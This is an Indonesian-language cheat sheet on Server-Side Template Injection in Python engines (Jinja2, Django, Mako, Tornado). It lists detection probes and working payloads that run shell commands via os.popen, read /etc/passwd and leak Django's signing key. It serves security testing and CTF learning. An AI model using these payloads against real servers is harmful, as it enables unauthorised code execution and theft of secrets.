 # Server Side Template Injection - Python

> **Server-Side Template Injection (SSTI)** adalah kerentanan di mana penyerang dapat menyisipkan input berbahaya ke dalam template di sisi server, sehingga kode arbitrer dapat dieksekusi di server. Pada Python, SSTI bisa terjadi pada engine seperti Jinja2, Mako, Django Templates, Tornado, dan lainnya jika input pengguna tidak disaring dengan benar.

## Ringkasan

- [Library Template Populer](#library-template-populer)
- [Payload Dasar](#payload-dasar)
- [Payload Spesifik Engine](#payload-spesifik-engine)
- [Tips](#tips)
- [Referensi](#referensi)

## Library Template Populer

| Nama Template | Format Payload | Bahasa Pemrograman |
| ------------- | -------------- | ------------------ |
| Jinja2        | `{{ ... }}`    | Python             |
| Mako          | `${ ... }`     | Python             |
| Django        | `{{ ... }}`    | Python             |
| Tornado       | `{{ ... }}`    | Python             |
| Chameleon     | `${ ... }`     | Python             |
| Cheetah       | `${ ... }`     | Python             |
| Pystache      | `{{ ... }}`    | Python             |
| Bottle        | `{{ ... }}`    | Python             |

## Payload Dasar

Coba payload berikut pada input yang dicurigai:

```python
{{7*7}}
${7*7}
```

Jika output menjadi `49`, kemungkinan aplikasi rentan SSTI.

## Payload Spesifik Engine

### Jinja2

- **Injeksi Dasar:**
  ```python
  {{7*7}}
  ```
- **Lihat semua class:**
  ```python
  {{ ''.__class__.__mro__[1].__subclasses__() }}
  ```
- **Eksekusi perintah:**
  ```python
  {{ cycler.__init__.__globals__.os.popen('id').read() }}
  ```
- **Baca file:**
  ```python
  {{ get_flashed_messages.__globals__.__builtins__.open('/etc/passwd').read() }}
  ```

### Django Templates

- **Injeksi Dasar:**
  ```django
  {{ 7*7 }}
  ```
- **Lihat variabel:**
  ```django
  {% debug %}
  ```
- **Leak informasi:**
  ```django
  {{ messages.storages.0.signer.key }}
  ```

### Mako

- **Injeksi Dasar:**
  ```mako
  ${7*7}
  ```
- **Eksekusi perintah:**
  ```mako
  <% import os %>
  ${os.popen('id').read()}
  ```

### Tornado

- **Injeksi Dasar:**
  ```python
  {{7*7}}
  ```
- **Eksekusi perintah:**
  ```python
  {{ cycler.__init__.__globals__.os.popen('id').read() }}
  ```

## Tips

- Selalu cek output aplikasi setelah mengirim payload.
- Gunakan variasi payload jika satu format tidak berhasil.
- Setelah engine teridentifikasi, cari dokumentasi exploitasi engine tersebut.
- Gunakan payload hanya di lingkungan legal (CTF/lab).

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
